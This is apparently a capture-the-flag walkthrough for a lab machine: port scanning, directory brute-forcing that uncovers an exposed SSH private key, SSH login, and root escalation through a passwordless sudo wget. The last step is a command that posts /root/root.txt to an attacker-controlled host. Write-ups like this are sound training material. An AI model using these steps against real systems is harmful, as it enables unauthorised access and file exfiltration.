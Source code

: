 
## 🚀 Walkthrough

### 1️⃣ Enumeration
First, scan the target IP to discover open ports and running services:
```bash
nmap -sV <IP>
```
**Findings:**
- **Port 22 (SSH)** — Open, running OpenSSH  
- **Port 80 (HTTP)** — Apache web server running  

---

### 2️⃣ Finding a Username
Inspecting the HTTP service revealed a username that could be used later for SSH access.  

---

### 3️⃣ Directory Bruteforcing
Run **Gobuster** to enumerate directories:
```bash
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt
```
Found:  
```
/sitemap
```

---

### 4️⃣ Digging Deeper in `/sitemap`
At first, `/sitemap` seemed empty. Running Gobuster again on `/sitemap`:
```bash
gobuster dir -u http://<IP>/sitemap/ -w /usr/share/wordlists/dirb/common.txt
```
Discovered:
```
/id_rsa
```

---

### 5️⃣ Retrieving the SSH Key
Downloaded the SSH private key from:
```
http://<IP>/sitemap/id_rsa
```
Fixed key permissions:
```bash
chmod 600 id_rsa
```

---

### 6️⃣ SSH Access
Logged in using the discovered username and private key:
```bash
ssh -i id_rsa <username>@<IP>
```
After successful login, retrieved the **user flag**:
```bash
cat user.txt
```

---

### 7️⃣ Privilege Escalation to Root
Check available `sudo` privileges:
```bash
sudo -l
```
Found that **wget** can be run as root without a password.

---

### 8️⃣ Exfiltrating the Root Flag
Used `wget` to send the root flag to my local machine:
```bash
sudo /usr/bin/wget --post-file=/root/root.txt http://<your-ip>:<port>
```
On attacker machine, started a Python HTTP server to receive the file:
```bash
python3 -m http.server 4444
```
**Root flag received!** 🏆

---

## 🎯 Flags Obtained
- **User Flag:** ✅  
- **Root Flag:** ✅  

---
